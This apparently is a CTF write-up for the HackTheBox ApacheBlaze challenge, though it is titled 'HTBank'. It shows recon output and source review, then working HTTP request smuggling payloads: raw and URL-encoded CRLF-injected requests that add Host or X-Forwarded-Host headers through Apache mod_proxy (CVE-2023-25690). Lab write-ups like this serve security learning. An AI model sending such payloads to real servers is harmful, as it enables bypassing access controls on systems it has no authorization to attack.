



# Solve HTBank 
#### https://app.hackthebox.com/challenges/ApacheBlaze


##### By directory brute force with dirsearech
`dirsearch -u http://94.237.58.211:30916/ -x 404,403` 
[05:53:25] 200 -  360B  - /assets/                                          
[05:53:25] 301 -  242B  - /assets  ->  http://94.237.58.211:30916/assets/   
[05:53:27] 200 -    1KB - /cgi-bin/test-cgi                                 
[05:53:27] 200 -  820B  - /cgi-bin/printenv

#### /assets page

#### /cgi-bin/test-cgi page

#### /cgi-bin/printenv page


##### nmap scan 

```
22/tcp    open  ssh         OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 91:fb:f2:1e:09:9a:a3:10:c7:f3:18:3f:18:9d:4a:76 (RSA)
|   256 15:53:99:6a:83:03:96:0b:b7:82:44:7d:34:f0:7d:69 (ECDSA)
|_  256 46:2f:3e:5e:ee:65:be:17:7c:3b:51:02:5c:51:83:06 (ED25519)

30916/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache
|_http-title: ApacheBlaze
```
## Review the sorce code

### Analyze fetchAPI.js
*you can find the file in [fetchAPI.js](src/challenge/frontend/src/assets/js/fetchAPI.js)*

The **fetchAPI.js** code can be broken down as follows:

1. The code waits for the document to be ready using `$(document).ready(function() {...})`.

2. It attaches a click event handler to links (`<a>`) inside elements with the class "game" using `$(".game a").click(function(event) {...})`.

3. Inside the click event handler:
   - `event.preventDefault()` **prevents the default behavior** of the clicked link, which is typically navigating to a new page.

   - `var gameName = $(this).attr("div")` retrieves the value of the "div" attribute of the clicked link. 
     - `$(this)` refers to the clicked link.
     - `.attr("div")` is used to get the value of the "div" attribute.

4. An AJAX request is made to the "/api/games/" endpoint with the obtained `gameName` using `$.ajax({...})`.

5. The `success` callback function handles a successful response by updating the content of the element with ID "gameplayresults" with the received message.

6. The `error` callback function handles an error in fetching API data by updating the content of the same element with an error message.

### Analyze app.py
*you can find the file in [app.py](src/challenge/backend/src/app.py)*

### Notice that we find a suspicious function in the backend code

``` python
elif game == 'click_topia':
        if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
            return jsonify({
                'message': f'{app.config["FLAG"]}'
            }), 200

```
The code checks if the user choose `click_topia` Game and the request has `X-Forwarded-Host` header with value `dev.apacheblaze.local` it return the flag as a Json.

#### HTTP header manipulation with `X-Forwarded-Host`

We got 408 Request Timeout.

##### Try POST request

We got 408 Request Timeout.
*Note from code `@app.route('/', methods=['GET'])` ONLY `GET` method is allowed*

### Analyze httpd.conf (This Apache HTTP Server configuration)
*you can find the file in [httpd.conf](src/conf/httpd.conf)*

This configuration sets up a reverse proxy on port `1337`, forwarding requests to a backend server on port `8080`, which is load-balanced across two backend servers (`8081` and `8082`). The rewrite rule in the first virtual host handles requests to `/api/games/` by forwarding them to the backend server with the appropriate query parameter. The load balancer in the second virtual host distributes requests among the specified backend servers.


### Mod Proxy module
`mod_proxy` is an Apache module that provides support for proxying requests. It enables the Apache HTTP Server to act as a **gateway** or **reverse proxy** (a reverse proxy manages incoming requests from clients and forwards them to backend servers). This module is often used to forward requests from Apache to another web server, application server, or backend server.

## Try to Http request smuggling via header injection
### Normal request
```
GET /api/games/click_topia HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/

```
we can hide a second request in the first we sent to the target (with the `\r\n\r` splitting method). That enable us to send the request directly from the **reverse proxy**.
### Try to inject with X-Forwarded-Host
```
GET /api/games/click_topia HTTP/1.1
X-Forwarded-Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```
### Encoded as 
```
GET /api/games/click_topia%20HTTP/1.1%0d%0aX-Forwarded-Host:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```
Note: `%0A` for newline `\n` and `%0D` for carriage return `\r`
So `\r\n ` ->  `%0d%0a` `\r\n\r`  ->  `%0d%0a%0d`


The server Can't understand X-Forwarded-Host header 
### Try to inject with Host

```
GET /api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```
### Encoded as 
```
GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```


### Resorces
- [HTTP Request Smuggling attack ](https://portswigger.net/web-security/request-smuggling)
- [Http request smuggling via header injection](https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection)
- [CVE 2023 25690 POC](https://github.com/dhmosfunk/CVE-2023-25690-POC)
- [URL encoding of newline](https://stackoverflow.com/questions/3871729/transmitting-newline-character-n)


>Find More on ==> github.com/MedhatHassan
